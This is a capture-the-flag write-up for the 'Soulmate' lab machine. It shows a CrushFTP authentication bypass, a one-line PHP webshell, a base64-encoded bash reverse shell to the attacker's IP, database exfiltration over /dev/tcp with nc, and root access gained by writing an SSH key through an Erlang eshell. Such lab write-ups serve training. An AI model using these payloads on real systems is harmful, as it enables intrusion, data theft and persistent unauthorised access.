Soulmate

Soulmate was an easy-difficulty Linux machine that began with an nmap scan revealing SSH on port 22 and HTTP on port 80. The web application was a PHP-based dating website where I registered an account (test:testtest) and explored functionality including profile picture uploads, which proved to be a dead end after attempting file upload bypasses. With no viable XSS or file upload vectors, I performed subdomain fuzzing using ffuf and discovered an FTP subdomain (ftp.soulmate.htb), which I added to my hosts file. The FTP subdomain hosted a CrushFTP instance that required authentication. I researched unauthenticated vulnerabilities affecting CrushFTP and identified CVE-2025-2825, a critical authentication bypass vulnerability exploiting a race condition in the AWS4-HMAC authorization method. Using a public PoC script (ShatteredFTP), I sent a specially-crafted XML payload that bypassed authentication and created a new user account (test:test) with administrative privileges, granting me access to the CrushFTP web interface.
After authenticating to CrushFTP, I explored the admin panel and discovered the User Manager functionality. I identified two legitimate users: Ben and Jenna. Ben's user directory contained a "User's stuff" folder pointing to the Soulmate website source code directory (webProd). I reset Ben's password to Password123 via the User Manager, logged in as Ben, navigated to the webProd directory, and uploaded a minimal PHP webshell ($_GET[0]?>) to shell.php. I confirmed remote code execution by browsing to http://soulmate.htb/shell.php?0=id, then executed a base64-encoded bash reverse shell payload to obtain an initial foothold as the www-data user.
During post-exploitation enumeration, I explored the web application's data directory and extracted the SQLite database (soulmate.db), which contained only a bcrypt-hashed admin password that I deemed too expensive to crack. I searched for readable directories and filtered results for interesting filenames using grep with patterns like config, password, credentials, and ssh. This revealed several files related to Erlang, a high-level programming language. In /usr/local/lib/erlang_login, I found start.escript, which contained hardcoded credentials for Ben (HouseH0ldings998) and configured an SSH daemon on port 2222 using Erlang's SSH library. I used these credentials to SSH into the machine as Ben and captured the user flag.
For privilege escalation, I verified that Ben had no sudo privileges and confirmed that a service was listening on port 2222 using netstat. I connected to this non-standard SSH port from my existing shell and was dropped into an eshell (Erlang shell) instead of a traditional bash shell. I explored the eshell help documentation and discovered file system functions, confirming that I could list any directory on the system, including root's home directory, despite being a low-privileged user. I researched how to write files in Erlang and found file:write_file/2 on StackOverflow. I generated an SSH keypair on my attack box using ssh-keygen, then used the eshell to write my public key to root's authorized_keys file with the command file:write_file("/root/.ssh/authorized_keys", "PUBKEY"). After setting proper permissions (chmod 600) on my private key, I successfully authenticated to the machine as root via SSH using the keypair and captured the root flag.
User Flag

Initial nmap scan reveals 2 open ports. SSH on 22 and HTTP on 80.
Investigating the website
This is some sort of dating website made with PHP. I'll create an account with my usual credentials of test:testtest

Right away, I noticed that I can upload a profile picture. I tried to upload a PHP file instead, together with manipulating the magic bytes and the content-type header, but I did not manage to bypass the safeguards, and deemed this a dead end.
There is also no way to make posts or stories, so XSS would also be a dead end if the bio field were vulnerable to it.
Having said all that, I will fuzz for subdomains and endpoints.

Aside from the few insignificant PHP endpoints, an FTP subdomain was found. I'll add this subdomain to my host file.
CrushFTP exploitation

This is a CrushFTP instance. It requires credentials, which I don't have at this point. Credentials to my Soulmate account do not work either, which was expected.
I will look for unauthenticated/auth bypass CVEs affecting CrushFTP. I do not know which version exactly it is running, so anything interesting I'll find will require some testing to determine whether this instance is vulnerable.
A quick search brought me to CVE-2025-31161, and a rejected, similar CVE-2025-2825
https://nvd.nist.gov/vuln/detail/CVE-2025-31161
These CVEs resolve around a race condition in the AWS4-HMAC authorization method of the HTTP component of the FTP server. By sending a specially prepared XML payload, an attacker can bypass the authentication and "log in" as any guessable user on the server, like the crushadmin
While at it, I also found a PoC script for those two CVEs.
https://github.com/ghostsec420/ShatteredFTP/tree/main
I'll create a new user with the credentials of test:test using this exploit.
python ShatteredFTP/Shattered.py --target_host ftp.soulmate.htb --port 80 --new_user test --password test --cve 2825

Exploit successful! I'll try logging into the CrushFTP instance with these new credentials.

Exploring the CrushFTP web interface
Of course, this user will have no files in their bucket. Adding files will not be of much use either. Since I have access to the admin panel, I will take a look at it, as this should have more powerful functionalities.

In the dashboard, I can see a few powerful sections, such as jobs or the user manager. Jobs require an enterprise subscription, which this instance does not have.

Looking at the users, I can see 2 interesting ones, Ben and Jenna. Ben's "Users' stuff" dir contains the Soulmate website source code. If I can get my hands on that, I'll be able to add a webshell to the website, which is a sure way for code execution. This will be my next step.
Code execution via webshell injection
Using the user manager functionality, I reset Ben's password to Password123 and saved the result. After logging out of my test account, I will log in as Ben with ben:Password123

After going to the webProd directory, there is an option to add files right here. I'll create a simple PHP webshell for code execution.

<?=$_GET[0]?>

After successfully uploading the file, I'll navigate to http://soulmate.htb/shell.php?0=id to execute the id command on the server.

Code execution confirmed. Now I'll prepare a command that will send back a shell to my listener.
echo YmFzaCAtYyAnYmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuODYvOTAwMSAwPiYxJw== | base64 -d |bash
This needs to be URL-encoded because I'll be sending it via an HTTP request.
echo+YmFzaCAtYyAnYmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuODYvOTAwMSAwPiYxJw%3d%3d+|+base64+-d+|bash

Exploring the landing directories

Light reconnaissance reveals that the db is stored under ~/soulmate.htb/data/soulmate.db. I can send it over to my host easily with just two commands.
cat soulmate.db > /dev/tcp/10.10.16.86/9001 | On the victim box
nc -lnkvp 9001 > soulmate.db | On the attack box

This DB only contains a hashed password for the admin. This is a bcrypt hash as well, so I won't try cracking it for now.
I will look for directories readable by my user. However, since there is quite a lot of data, I will use grep with the -E flag to filter for interesting filenames.
find / -xdev -type d -readable 2>/dev/null > readabledirs
cat readabledirs | grep -E 'config|login|password|credential|credentials|script|ssh

There are quite a few files related to erlang. This is a high-level language, of which I was not aware. In the usr/local/lib/erlang_login dir, there are 2 .escript files. One of them contains credentials for Ben.
# start.escript
#!/usr/bin/env escript
%%! -sname ssh_runner
main(_) ->
application:start(asn1),
application:start(crypto),
application:start(public_key),
application:start(ssh),
io:format("Starting SSH daemon with logging...~n"),
case ssh:daemon(2222, [
{ip, {127,0,0,1}},
{system_dir, "/etc/ssh"},
{user_dir_fun, fun(User) ->
Dir = filename:join("/home", User),
io:format("Resolving user_dir for ~p: ~s/.ssh~n", [User, Dir]),
filename:join(Dir, ".ssh")
end},
{connectfun, fun(User, PeerAddr, Method) ->
io:format("Auth success for user: ~p from ~p via ~p~n",
[User, PeerAddr, Method]),
true
end},
{failfun, fun(User, PeerAddr, Reason) ->
io:format("Auth failed for user: ~p from ~p, reason: ~p~n",
[User, PeerAddr, Reason]),
true
end},
{auth_methods, "publickey,password"},
{user_passwords, [{"ben", "HouseH0ldings998"}]},
{idle_time, infinity},
{max_channels, 10},
{max_sessions, 10},
{parallel_login, true}
]) of
{ok, _Pid} ->
io:format("SSH daemon running on port 2222. Press Ctrl+C to exit.~n");
{error, Reason} ->
io:format("Failed to start SSH daemon: ~p~n", [Reason])
end,
receive
stop -> ok
end.
It seems like Erlang is being used together with SSH runner. This might be important in the future, but for now, I will note down these credentials.
ben | HouseH0ldings998
I will try these credentials to log into the machine as Ben.

Root Flag

Ben cannot run anything as root on the box. The .escript file contained references to an SSH service running on port 2222, and looking at listening services confirms that there is indeed something listening.

Exploiting the Erlang SSH shell
This is a popular second choice for an SSH port aside from the standard 22. I'll try to SSH into that from my current Ben shell.

This drops me into an eshell. After making myself familiar with the help section, I quickly found a way to list directories, and found out that I can see any listing I want, even if it belongs to root.

While I can see the contents, I did not find a way to write/read files easily in this help menu. Luckily, I found an answer on Stack Overflow rather quickly.
https://stackoverflow.com/questions/5224564/erlang-how-to-write-my-outputs-in-a-text-file
By running file:write_file("PATH", "DATA"). in the eshell, I should be able to write an SSH key into root's authorized keys file. Unless I don't have write perms, but this is quick enough to check that I'll go through with it regardless.
ssh-keygen | Creates a keypair
file:write_file("/root/.ssh/authorized_keys", "PUBKEY"). | Writes the public key into the specified location. Make sure the private key's permissions are set to 600, otherwise it will not authenticate.

On my machine, I will try to SSH into the box as root using this keypair.

Rooted!